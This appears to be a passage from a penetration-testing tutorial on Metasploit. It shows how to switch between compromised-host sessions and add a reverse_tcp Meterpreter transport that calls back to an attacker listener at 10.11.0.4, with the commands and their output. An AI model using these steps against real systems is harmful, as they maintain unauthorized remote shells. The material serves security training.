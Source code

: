 msf5 exploit(multi/handler) > sessions -i 5
[*] Starting interaction with 5...

meterpreter > 
  
  
• Using these commands, we can switch between available shells on different compromised hosts without closing down any of our connections.
  
• In our previous examples, we have used a pre-defined communication protocol (like TCP or HTTPS)to exploit our target, which we chose when we generated the payload.

• However, we can use Meterpreter payload transports to switch protocols after our initial compromise.

•  We can list the currently available transports for the meterpreter connection with transport list.
  
  meterpreter > transport list
Session Expiry : @ 2019-10-09 17:01:44
ID Curr URL
-- ---- ---
1 * http://10.11.0.4:4444/gFojKgv3qFbA1MHVmlpPUgxwS_f66dxGRl8ZqbZZTkyCuJFjeAaDK/

  
  
  We can also use transport add to add a new transport protocol to the current session, using -t to set the desired transport type.
  
 In the example below, we will add the reverse_tcp transport, which is equivalent to choosing the windows/meterpreter/reverse_tcp payload. 
 
 We will apply the options for the specified transport type, including the local host IP address (-l) and the local port (-p):
  
  meterpreter > transport add -t reverse_tcp -l 10.11.0.4 -p 5555
[*] Adding new transport ...
[+] Successfully added reverse_tcp transport.
meterpreter > transport list
Session Expiry : @ 2019-10-09 17:01:44
ID Curr URL
-- ---- ---
1 * http://10.11.0.4:4444/gFojKgv3qFbA1MHVmlpPUgxwS_f66dxGRl8ZqbZZTkyCuJFjeAaDK/
2 tcp://10.11.0.4:5555

  
  
 Before we can take advantage of the new transport, we must set up a listener to accept the connection. 
 
 We’ll do this by once again selecting the multi/handler module and specifying the same parameters we selected earlier.
  
 With the handler configured, we can return to the meterpreter session and run transport next to change to the newly-created transport mode.

  This will create a new session and close down the old one.
  
  meterpreter > background
[*] Backgrounding session 5...
